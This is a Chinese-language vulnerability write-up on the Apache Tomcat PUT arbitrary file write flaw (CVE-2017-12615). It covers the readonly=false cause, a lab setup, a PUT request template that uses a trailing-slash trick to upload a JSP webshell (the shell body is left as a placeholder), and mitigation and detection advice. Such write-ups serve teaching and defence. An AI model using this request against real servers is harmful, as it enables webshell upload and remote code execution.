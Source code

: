 # 漏洞名称：Tomcat PUT方法任意写文件漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

---

Apache Tomcat是美国阿帕奇（Apache）软件基金会下属的Jakarta项目的一款轻量级Web应用服务器，它主要用于开发和调试JSP程序，适用于中小型系统。部分版本的Tomcat启用HTTP PUT请求方法时，远程攻击者可以构造恶意请求利用该漏洞向服务器上传包含任意代码执行的jsp文件，并被服务器执行该文件，导致攻击者可以执行任意代码。

---

### 漏洞危害

攻击者有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，之后JSP 文件中的代码将能被服务器执行。

---

### 影响范围

7.0.0<=Version <=7.0.79

---

## 漏洞原理

Tomcat 的 Servlet 是在 conf/web.xml 配置的，通过配置文件可知，漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
    <servlet>
        <servlet-name>default</servlet-name>
        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
        <init-param>
            <param-name>debug</param-name>
            <param-value>0</param-value>
        </init-param>
        <init-param>
            <param-name>listings</param-name>
            <param-value>false</param-value>
        </init-param>
<init-param><param-name>readonly</param-name><param-value>false</param-value></init-param>
        <load-on-startup>1</load-on-startup>
    </servlet>
```

当后缀名为 .jsp 和 .jspx 的时候，是通过JspServlet处理请求的。例如`1.jsp `（末尾有一个空格）并不能匹配到 JSP Servlet，而是会交由default Servlet去处理。

```
<!-- The mapping for the default servlet -->
    <servlet-mapping>
        <servlet-name>default</servlet-name>
        <url-pattern>/</url-pattern>
    </servlet-mapping>

    <!-- The mappings for the JSP servlet -->
    <servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。


---

### 靶机环境

vulhub/tomcat/CVE-2017-12615

---

### 利用方式 1

使用PUT请求发送以下内容：

```
PUT /1.jsp/ HTTP/1.1
Host: 192.168.1.189:8090
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 958

--jsp shell--
```

![02](./img/tomcat_CVE-2017-12615/02.png)

然后利用蚁剑进行连接：

![01](./img/tomcat_CVE-2017-12615/01.png)

### 

---


## 威胁防护建议

---

### 用户处置建议

将 conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 true

---

### 安全产品检测建议

检测PUT形式发送后缀名为jsp的请求

检测jsp格式的木马

